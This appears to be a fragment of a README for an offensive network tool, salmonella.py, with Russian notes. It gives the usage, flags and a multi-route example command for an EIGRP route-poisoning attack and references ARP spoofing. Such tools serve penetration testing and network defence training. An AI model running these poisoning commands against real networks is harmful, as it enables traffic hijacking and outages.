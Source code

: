 ![](gif/arp-spoof-gif.gif)

### <a name="eigrp-poison">EIGRP Poisoning</a>
```bash
sudo python3 salmonella.py eigrp-poison [-h] --net  --pref  [--nh ] [--intf ] [-i] [-e]
```
```bash
  -h, --help      show this help message and exit
  --net           Destination network
  --pref          Prefix (e.g. 24)
  --nh            IP address of next hop (0.0.0.0 for your device or other)
  --intf          Your network interface
  -i, --internal  Use this flag if you want to utilize INTERNAL EIGRP routes (default)
  -e, --external  Use this flag if you want to utilize EXTERNAL EIGRP routes
```
Пример использования с несколькими маршрутами:
```bash
sudo python3 salmonella.py eigrp-poison --net 10.10.10.0_192.168.1.0 --pref 24_25 --nh 0.0.0.0_0.0.0.0
```
❗ Значения аргументов ```--net```, ```--pref``` и ```--nh``` разделяются нижним подчеркиванием ```_```.  
❗❗ Количество значений в аргументах ```--net```, ```--pref``` и ```--nh``` должно совпадать.
